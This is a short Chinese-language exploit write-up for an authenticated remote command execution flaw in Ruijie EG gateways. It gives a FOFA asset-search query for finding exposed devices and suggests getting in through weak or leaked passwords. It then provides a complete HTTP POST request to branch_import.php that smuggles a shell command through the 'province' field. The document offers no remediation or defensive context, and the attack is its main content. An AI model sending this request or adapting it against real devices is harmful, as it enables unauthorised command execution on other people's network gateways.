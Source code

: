 # 锐捷 EG易网关branch_import存在后台远程命令执行漏洞

**<font style="color:rgb(38, 38, 38);">一、漏洞简介</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">锐捷 EG易网关cli存在后台远程命令执行漏洞。  
</font>**<font style="color:rgb(38, 38, 38);">二、影响版本</font>**

```java
锐捷EG易网关
```

<font style="color:rgb(38, 38, 38);">  
</font>**<font style="color:rgb(38, 38, 38);">三、资产测绘</font>**

```java
app="Ruijie-EG易网关"
```

<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">●登录页面</font>

![1710773302248-caa9069a-265b-44c3-8a1c-ee627b562553.png](./img/q5gbx381pZqiSO5A/1710773302248-caa9069a-265b-44c3-8a1c-ee627b562553-866006.png)

# <font style="color:rgb(38, 38, 38);">四、漏洞复现</font>
1. 通过弱口令或账号密码泄露漏洞登录后台获取cookie

![1711298713325-517a2298-d16c-4786-a1f9-3e40836a4f8c.png](./img/q5gbx381pZqiSO5A/1711298713325-517a2298-d16c-4786-a1f9-3e40836a4f8c-331307.png)

2. 通过上一步获取的cookie执行命令

```java
POST /itbox_pi/branch_import.php?a=branch_list HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Cookie: LOCAL_LANG_COOKIE=zh; RUIJIEID=ihvlofd9j5bfjbikfrtng7p9f5; helpKey=home_sys;user=admin
X-Requested-With: XMLHttpRequest
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-Length: 16

province=|whoami
```

![1714060183007-068368ef-b67b-4783-8549-487afc30bdcd.png](./img/q5gbx381pZqiSO5A/1714060183007-068368ef-b67b-4783-8549-487afc30bdcd-351882.png)



> 更新: 2024-06-24 11:42:26  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/mdlrafum0t2146rf>